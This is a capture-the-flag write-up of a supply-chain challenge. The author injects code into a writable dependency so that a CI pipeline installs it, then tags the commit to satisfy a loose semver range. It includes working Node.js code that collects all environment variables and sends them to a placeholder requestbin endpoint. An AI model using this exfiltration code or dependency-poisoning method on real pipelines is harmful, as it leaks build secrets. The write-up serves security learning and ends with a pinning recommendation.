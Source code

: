 # Twiddledum (& Twiddledee)

Our git user `thealice` can only read from `twiddledum`, the target repository within which resides Flag 6. However, they are able to write to `twiddledee`, which is listed as a dependency in the `package.json` of `twiddledum`.

Using this knowledge, we can inject our own malicious code into the `twiddledum` pipeline and extract Flag 6 this way. I had the `twiddledee` `index.js` sent a PUT request with all environment variables to a requestbin endpoint, but I think one could dump the flag to the Jenkins output console too with a little more work(probably including base64 encoding to defeat obfuscation). Here is the code I added:

```js

const request = require('request');
const process = require('process');

// Get all environment variables
const environmentData = Object.entries(process.env).reduce((obj, [key, value]) => {
  obj[key] = value;
  return obj;
}, {});

// Prepare data to be sent
const postData = {
  environmentData
};

// Post data to the specified endpoint
const requestOptions = {
  url: '<requestbin>',
  method: 'POST',
  json: true,
  body: postData,
};

request(requestOptions, (error, response, body) => {
  if (error) {
    console.error('An error occurred while sending data:', error);
  } else {
    console.log('Data successfully sent. Server response:', body);
  }
});
```

To get the `twiddledum` pipeline to take up this change, I tagged the new commit on `twiddldee` with a version that passed the SemVer constraints defined in the `twiddledum` dependencies, which conveniently allow any minor revision under the 1.x major version:

```json
  "dependencies": {
    "twiddledee": "git+http://gitea:3000/Wonderland/twiddledee#semver:^1.1.0"
  },
```

Lesson takeaway: use static version pinning where possible, especially for lesser known dependencies.
